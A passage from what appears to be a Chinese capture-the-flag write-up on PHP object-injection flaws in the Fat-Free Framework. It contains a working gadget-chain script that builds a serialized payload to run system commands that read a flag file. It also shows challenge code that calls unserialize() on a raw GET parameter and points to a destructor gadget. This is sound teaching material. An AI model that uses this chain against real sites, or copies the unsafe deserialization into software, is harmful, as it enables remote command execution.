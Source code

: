 ```php
namespace {
    class Basket {
        public $events = [];
        public function __construct($events) {
            $this->events = $events;
        }
    }
}

namespace {

    use CLI\Agent;
    use CLI\WS;
    use DB\SQL\Mapper;

    $a = new Mapper(array("read"=>"system"));
//    $b = new Agent($a, 'find / | grep flag');
    $b = new Agent($a, 'cat /etc/flagzaizheli');
    $c = new Basket(array("disconnect"=>array($b,"fetch")));
    $d = new Agent($c, '');
    $e = new WS($d);
    echo urlencode(serialize($e));
}
```

**补充**

 `CISCN2020 baby unserialize` 考察的也是 Fat Framework 的反序列化

源码

```php
<?php

// Kickstart the framework
$f3=require('lib/base.php');

if ((float)PCRE_VERSION<8.0)
    trigger_error('PCRE version is out of date');

$f3->route('GET /',
    function($f3) {
        echo "may be you need /?flag=";
    }
);

unserialize($_GET['flag']);

$f3->run();
```

全局搜索 `__destruct()`,  在jig.php中发现了write方法

```php
function __destruct() {
	if ($this->lazy) {
		$this->lazy = FALSE;
		foreach ($this->data?:[] as $file => $data)
			$this->write($file,$data);
	}
}
```
